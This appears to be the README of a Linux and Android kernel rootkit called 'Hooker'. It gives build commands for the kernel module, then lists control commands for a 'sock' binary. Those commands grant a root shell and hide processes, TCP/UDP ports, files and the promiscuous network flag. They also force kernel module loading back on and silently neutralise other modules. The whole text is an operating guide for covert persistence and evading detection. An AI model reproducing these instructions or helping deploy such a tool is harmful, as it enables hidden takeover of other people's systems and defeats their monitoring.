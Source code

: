 Hooker
========

Typical compilation steps:

    $ wget http://kernel.org/linux-x.x.x.tar.gz
    $ tar xvf linux-x.x.x.tar.gz
    $ cd linux-x.x.x
    $ make menuconfig
    $ make modules_prepare
    $ cd /path/to/hooker
    $ make linux-x86 KDIR=/path/to/kernel


To compile against the currently running kernel (kernel headers installed):

    $ make linux-x86 KDIR=/lib/modules/$(uname -r)/build


If a specific toolchain is desired for cross-compilation, provide the
CROSS_COMPILE variable during make:

    $ make android-arm CROSS_COMPILE=arm-linux-androideabi- KDIR=/path/to/kernel


To compile the command binary:

    $ gcc sock.c -o sock


Commands
========

Root shell

    $ ./sock 0

Hide PID

    $ ./sock 1 [pid]

Unhide PID

    $ ./sock 2 [pid]

Hide TCPv4 port

    $ ./sock 3 [port]

Unhide TCPv4 port

    $ ./sock 4 [port]

Hide TCPv6 port

    $ ./sock 5 [port]

Unhide TCPv6 port

    $ ./sock 6 [port]

Hide UDPv4 port

    $ ./sock 7 [port]

Unhide UDPv4 port

    $ ./sock 8 [port]

Hide UDPv6 port

    $ ./sock 9 [port]

Unhide UDPv6 port

    $ ./sock 10 [port]

Hide file/directory

    $ ./sock 11 [name]

Unhide file/directory

    $ ./sock 12 [name]

Hide network PROMISC flag

    $ ./sock 13

Unhide network PROMISC flag

    $ ./sock 14

Enable module loading (force kernel.modules_disabled=0)

    $ ./sock 15

Silently prohibit module loading (neutralize future loaded modules)

    $ ./sock 16

Silently re-permit module loading (undo command 16)

    $ ./sock 17


File/directory hiding
---------------------

At the moment, file/dir hiding only hides names on the / filesystem.  Note that names are hidden, not paths.  For instance, giving the name ".blah" to Hooker will hide the name ".blah" in all directories on the filesystem.
